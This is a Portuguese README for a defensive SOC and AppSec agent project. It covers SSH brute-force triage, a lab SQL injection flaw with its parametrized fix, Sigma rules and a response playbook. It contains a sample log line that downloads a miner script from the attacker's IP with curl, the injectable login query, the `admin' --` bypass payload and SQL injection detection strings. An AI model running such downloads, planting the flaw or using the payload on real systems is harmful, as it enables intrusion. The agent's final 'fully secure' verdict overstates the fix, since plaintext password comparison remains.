

# 🛡️ Especialização do DIO Agent em Operações de SOC & AppSec Triage

> **Projeto Prático de Cibersegurança & Engenharia de Agentes**  
> **Foco:** Triagem de Vulnerabilidades, Resposta a Incidentes & Mitigação Defensiva (*Blue Team / SOC & AppSec*)  
> **Autor:** Bruno Mizumoto ([Mizumot00](https://github.com/Mizumot00))

---

## 📌 Visão Geral do Projeto

Este projeto foi desenvolvido como evolução técnica do **DIO Agent** para o Desafio de Cibersegurança da [DIO](https://dio.me), transformando o agente em um **Mentor Especialista em Operações de SOC (Security Operations Center) e Análise de Vulnerabilidades em Aplicações (AppSec)**.

Construído sob a ótica de um **Analista de SOC N1/N2 e Engenheiro de Segurança Defensiva**, o projeto não utiliza retreinamento de pesos ou modelos caros: a especialização foi implementada puramente através de **Engenharia de Agentes**, integrando personas investigativas, base de conhecimento formal (Tríade CIA, NIST SP 800-61 e MITRE ATT&CK) e skills procedurais em Markdown executadas sobre harnesses modernos (**Google Antigravity / Hermes**).

O grande diferencial defensivo do agente é a **postura investigativa prévia**: diante de incidentes e alertas em infraestrutura ou código, o agente se recusa a prescrever comandos cegos sem antes coletar o escopo, evitando indisponibilidade de serviços legítimos em produção e preservando evidências forenses voláteis.



---

## 🏗️ Estrutura do Repositório

```text
dio-agent-soc/
│
├── README.md                          # Documentação técnica completa do projeto
├── AGENTS.md                          # Manifesto central do agente e registro de skills
├── CLAUDE.md                          # Configuração de compatibilidade para harnesses
│
├── agent/                             # Núcleo de inteligência e base de conhecimento
│   ├── persona.md                     # Persona com postura investigativa, defensiva e ética
│   └── knowledge/
│       ├── security-basics.md         # Fundamentos: Tríade CIA, MITRE ATT&CK, NIST e Matriz de Risco
│       ├── dio-platform.md            # Contexto e carreiras da plataforma DIO
│       └── learning-experiences.md    # Modelos educacionais da DIO
│
├── skills/                            # Habilidades procedurais do agente
│   ├── vulnerability-analysis/        # Nova Skill: Triagem de SOC & Análise de Vulnerabilidades
│   │   ├── SKILL.md                   # Roteiro passo a passo executado pelo agente
│   │   └── README.md                  # Documentação conceitual e fluxogramas da skill
│   ├── study-plan/                    # Skill de planejamento de estudos
│   ├── unblock-challenge/             # Skill de suporte a desafios práticos
│   ├── explain-concept/               # Skill didática de explicação conceitual
│   ├── portfolio-review/              # Skill de auditoria de portfólio técnico
│   ├── ai-builder-path/               # Skill de orientação na Carreira AI Builder
│   └── web-search/                    # Skill de pesquisa e verificação em fontes externas
│
└── lab/                               # Ambiente prático de testes e validação
    ├── app.py                         # Aplicação Python vulnerável a SQL Injection
    ├── app_secure.py                  # Versão mitigada com Consultas Parametrizadas
    ├── server_scenario.md             # Cenário de laboratório e logs de ataque SSH
    └── WALKTHROUGH.md                 # Roteiro passo a passo com prompts de teste
```

---

## 🖥️ Módulo 1: Triagem de Incidentes em Infraestrutura & Postura de SOC

### 1. Mecânica da Ameaça no Servidor
O cenário simula um servidor Ubuntu de laboratório com SSH exposto à internet, sendo alvo de varredura massiva catalogada no **MITRE ATT&CK**:
- **T1110.001 (Brute Force: Password Guessing):** Tentativas repetidas contra usuários comuns (`admin`, `test`, `deploy`).
- **T1078 (Valid Accounts):** Comprometimento da credencial legítima do usuário padrão `ubuntu`.
- **T1105 (Ingress Tool Transfer):** Download de script de mineração via comando `curl -O http://198.51.100.45/miner.sh`.

Trecho dos logs de autenticação coletados em `/var/log/auth.log`:
```text
Nov 15 14:22:07 srv-lab-ubuntu sshd[18498]: Failed password for invalid user deploy from 198.51.100.45 port 49218 ssh2
Nov 15 14:22:15 srv-lab-ubuntu sshd[18510]: Accepted password for ubuntu from 198.51.100.45 port 49230 ssh2
Nov 15 14:22:20 srv-lab-ubuntu sudo[18540]:   ubuntu : TTY=pts/0 ; PWD=/home/ubuntu ; USER=root ; COMMAND=/usr/bin/curl -O http://198.51.100.45/miner.sh
```

---

### 🛡️ Ação de SOC N1: A Postura Investigativa (Investigar antes de Agir)

#### O Conceito:
Em um SOC corporativo, rodar comandos destrutivos (`reboot`, `iptables -F` ou `killall`) no calor de um incidente pode causar **indisponibilidade não planejada de sistemas de produção** e **destruir a memória volátil** onde residem processos injetados e conexões de rede ativas.

#### Evidência de Execução no Harness:
Ao provocar o DIO Agent solicitando comandos imediatos para "limpar e proteger o servidor", a nova skill intercepta a intenção e força uma triagem prévia:

```text
┌──(USUÁRIO　ao　DIO_AGENT)
└─► "Tenho um servidor Ubuntu de laboratório exposto na internet e estou vendo um monte de
     alertas estranhos de conexões desconhecidas. Quais comandos eu rodo no terminal
     para limpar tudo e me proteger?"

┌──(RESPOSTA　DO　DIO_AGENT　[SKILL: vulnerability-analysis])
└─► "Antes de passar qualquer comando no terminal, como um profissional de segurança preciso
     dar um passo atrás e entender o contexto do seu ambiente.

     Executar comandos às cegas (como reiniciar serviços, aplicar regras de firewall
     agressivas ou apagar arquivos) pode derrubar serviços legítimos ou destruir evidências
     forenses cruciais para entender como entraram.

     Para traçarmos o plano correto de triagem e contenção, me conta:
     1. Escopo e criticidade: Esse servidor é estritamente um laboratório descartável de testes
        ou existe alguma aplicação real/produção rodando nele?
     2. Acesso e conectividade: Você ainda possui acesso administrativo seguro via SSH a ele
        neste momento?
     3. Serviços expostos: Quais portas e serviços deveriam estar abertos nele originalmente
        (ex.: porta 22 para SSH, 80/443 para web)?
     4. Evidências e logs: Você consegue coletar uma amostra das últimas linhas dos logs de
        autenticação (como o /var/log/auth.log) ou do syslog antes de qualquer alteração?

     Assim que você me der esse panorama, a gente faz a triagem do incidente, avalia o impacto
     e aplica as medidas defensivas certas."
```

*(Diferencial técnico: Modelos genéricos devolveriam uma sequência cega de comandos `ufw` e `reboot`; o DIO Agent especializado atua com prudência operacional de SOC).*

---

## 🔒 Módulo 2: Auditoria AppSec & Classificação de Vulnerabilidades (`lab/app.py`)

### 1. Mecânica da Falha (SQL Injection)
No arquivo `lab/app.py`, o módulo de login realiza interpolação direta de entradas fornecidas pelo usuário em uma query SQL dinâmica:

```python
# Trecho Vulnerável em lab/app.py
query = f"SELECT id, username, email, is_admin FROM users WHERE username = '{username}' AND password = '{password}'"
```

A ausência de sanitização permite que o delimitador de string (`'`) seja fechado prematuramente, injetando operadores lógicos e comentários que desviam a lógica de autorização.

---

### 🛡️ Ação de AppSec & Triagem de Risco: Análise Estruturada

#### Evidência de Execução no Harness:

```text
┌──(USUÁRIO　ao　DIO_AGENT)
└─► "Atue como um especialista em AppSec e SOC e analise o código do arquivo lab/app.py.
     Encontre a falha de segurança, explique como ela pode ser explorada, cite a técnica
     correspondente do MITRE ATT&CK, gere a matriz padronizada de severidade (com a Tríade CIA)
     e reescreva o código de forma segura."

┌──(RESPOSTA　DO　DIO_AGENT　[SKILL: vulnerability-analysis])
└─► "1. Identificação da Falha:
     Vulnerabilidade crítica de SQL Injection (SQLi) na função login_vulneravel devido à
     concatenação direta de parâmetros do usuário na query SQL sem sanitização.

     2. Mapeamento no MITRE ATT&CK:
     - Tática: Initial Access
     - Técnica: T1190 - Exploit Public-Facing Application

     3. Mecânica Teórica de Exploração:
     Inserindo a carga útil: admin' --
     A query resultante se torna:
     SELECT id, username, email, is_admin FROM users WHERE username = 'admin' --' AND password = '...'
     O restante da instrução (inclusive a checagem da senha) é anulado como comentário,
     concedendo login administrativo imediato sem credencial válida."
```

#### Matriz Padronizada de Avaliação de Risco:

| Dimensão | Avaliação | Justificativa Técnica |
| :--- | :--- | :--- |
| **Confidencialidade (C)** | **Alta** | Permite bypass de login e vazamento de toda a base de usuários e credenciais. |
| **Integridade (I)** | **Alta** | Possibilidade de alteração de dados administrativos via queries concatenadas. |
| **Disponibilidade (A)** | **Média** | Risco de saturação do banco por comandos de travamento ou deleção indevida. |
| **Impacto Geral** | **Crítico** | Concede acesso com permissões elevadas (`is_admin = 1`). |
| **Probabilidade** | **Alta** | Vetor público, sem pré-requisito de autenticação, facilmente automatizado. |
| **Severidade Final** | **CRÍTICA** | Requer mitigação imediata no ciclo de desenvolvimento (AppSec). |

---

## ✅ Módulo 3: Remediação da Causa Raiz & Validação Defensiva (`lab/app_secure.py`)

### 1. Aplicação de Consultas Parametrizadas (*Prepared Statements*)
A mitigação definitiva foi aplicada em `lab/app_secure.py`, desacoplando a estrutura da instrução SQL dos valores dinâmicos:

```python
# Trecho Mitigado em lab/app_secure.py
query = "SELECT id, username, email, is_admin FROM users WHERE username = ? AND password = ?"
cursor.execute(query, (username, password))
```

O mecanismo compila a árvore da consulta antecipadamente; qualquer entrada maliciosa é tratada puramente como literal de texto, neutralizando o ataque.

---

### 🛡️ Ação de Validação: Parecer de Liberação

#### Evidência de Execução no Harness:

```text
┌──(USUÁRIO　ao　DIO_AGENT)
└─► "Atualizei o código para usar consultas parametrizadas como está no lab/app_secure.py.
     Faça uma nova varredura para validar se a vulnerabilidade de SQL Injection foi
     mitigada com sucesso."

┌──(RESPOSTA　DO　DIO_AGENT　[SKILL: vulnerability-analysis])
└─► "PARECER TÉCNICO DE AUDITORIA: APROVADO / VULNERABILIDADE MITIGADA
     
     1. Parecer Técnico da Correção:
     - O uso de marcadores de posição (?) obriga o motor do SQLite a compilar o plano
       de execução da query antes de receber os valores.
     - Mesmo que a string admin' -- seja enviada, o banco a trata estritamente como dado
       literal de texto, e não como código executável. A injeção lógica é impossibilitada.

     2. Matriz Residual:
     - Confidencialidade: Protegida (Resolvido)
     - Integridade: Protegida (Resolvido)
     - Disponibilidade: Estável (Resolvido)
     - Severidade Final: NENHUMA / SEGURO (Falha Neutralizada)"
```

---

## 🚨 Engenharia de Detecção: Regras de SIEM & Sigma

Para garantir monitoramento contínuo em ambientes de SOC corporativos, foram modeladas as seguintes regras de correlação para as ameaças analisadas:

### 1. Regra Sigma — Tentativa de SQL Injection em Endpoints Web
```yaml
title: Detecção de Padrões Clássicos de SQL Injection em Rotas Web
id: b2c3d4e5-6f7a-8b9c-0d1e-2f3a4b5c6d7e
status: production
description: Detecta padrões característicos de injeção SQL (quebra de aspas, operadores booleanos e comentários SQL) em parâmetros de requisições HTTP.
logsource:
    category: webserver
    product: linux
detection:
    selection:
        c-uri-query|contains:
            - "' OR '"
            - "' or 1=1"
            - "'--"
            - "admin'--"
            - "UNION SELECT"
    condition: selection
level: high
tags:
    - attack.initial_access
    - attack.t1190
```

### 2. Regra Sigma — Múltiplas Falhas de Autenticação SSH Seguidas de Sucesso (Brute Force)
```yaml
title: Força Bruta SSH com Login Bem-Sucedido
id: e4f5a6b7-8c9d-0e1f-2a3b-4c5d6e7f8a9b
status: production
description: Identifica mais de 5 tentativas inválidas de autenticação seguidas de um login aceito a partir do mesmo endereço IP em uma janela curta de tempo.
logsource:
    service: sshd
    product: linux
detection:
    failed_attempts:
        message|contains: 'Failed password'
    accepted_attempt:
        message|contains: 'Accepted password'
    timeframe: 2m
    condition: failed_attempts | count() > 5 then accepted_attempt
level: critical
tags:
    - attack.credential_access
    - attack.t1110.001
```

---

## 🛡️ Medidas de Mitigação & Playbook de Resposta a Incidentes

| Vetor de Ameaça | Contramedida Imediata (Contenção) | Medida Definitiva (Hardening) |
| :--- | :--- | :--- |
| **Servidor Exposto & Força Bruta SSH** | Bloquear IP atacante no firewall (`ufw deny from <IP>`) ou isolar o Security Group na nuvem; encerrar sessões suspeitas ativas (`pkill -u <user>`). | Desabilitar login por senha (`PasswordAuthentication no`); utilizar autenticação exclusivamente por **chaves SSH ed25519**; alterar a porta padrão `22`; implantar **Fail2ban**. |
| **SQL Injection (Web / API)** | Implementar regra de bloqueio imediato no WAF (Web Application Firewall) para inspecionar payloads maliciosos em requisições HTTP. | Refatorar todas as queries para uso obrigatório de **Prepared Statements / ORM seguro**; auditoria contínua via ferramentas SAST/DAST no pipeline de CI/CD. |

---

## 🏆 Conclusão

A evolução do **DIO Agent** demonstrou que a especialização de inteligências artificiais para segurança cibernética não depende de retreinamentos complexos de modelos de linguagem, mas sim de uma arquitetura sólida de **Engenharia de Agentes**:
- **Consistência Metodológica:** A inclusão de processos bem definidos em arquivos de skill (`SKILL.md`) garante que o agente nunca pule etapas críticas de triagem.
- **Raciocínio Defensivo:** Ao incorporar a mentalidade de um analista de SOC, o agente prioriza a integridade do ambiente, a continuidade do negócio e a preservação de evidências antes de prescrever soluções.
- **Aplicação Prática:** A integração de laboratórios de teste (`lab/`) valida a eficácia prática da análise, permitindo diagnosticar a falha, orientar a correção segura e emitir pareceres de validação padronizados.
